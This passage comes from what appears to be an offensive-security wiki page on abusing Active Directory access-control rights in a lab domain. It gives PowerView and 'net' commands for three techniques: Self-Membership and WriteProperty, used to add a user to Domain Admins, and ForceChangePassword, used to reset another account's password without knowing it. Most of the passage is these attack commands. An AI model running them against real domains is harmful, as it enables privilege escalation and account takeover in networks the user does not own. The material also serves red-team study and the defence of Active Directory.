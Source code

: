 ### Self (Self-Membership) on Group

Another privilege that enables the attacker adding themselves to a group:

![](../../.gitbook/assets/9.png)

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

![](../../.gitbook/assets/10.png)

### WriteProperty (Self-Membership)

One more privilege that enables the attacker adding themselves to a group:

```csharp
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../.gitbook/assets/11.png)

```csharp
net group "domain admins" spotless /add /domain
```

![](../../.gitbook/assets/12.png)

### **ForceChangePassword**

If we have `ExtendedRight` on `User-Force-Change-Password` object type, we can reset the user's password without knowing their current password:

```csharp
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../.gitbook/assets/13.png)

Doing the same with powerview:

```csharp
Set-DomainUserPassword -Identity delegate -Verbose
```

![](../../.gitbook/assets/14.png)

Another method that does not require fiddling with password-secure-string conversion:

```csharp
$c = Get-Credential
Set-DomainUserPassword -Identity delegate -AccountPassword $c.Password -Verbose
```
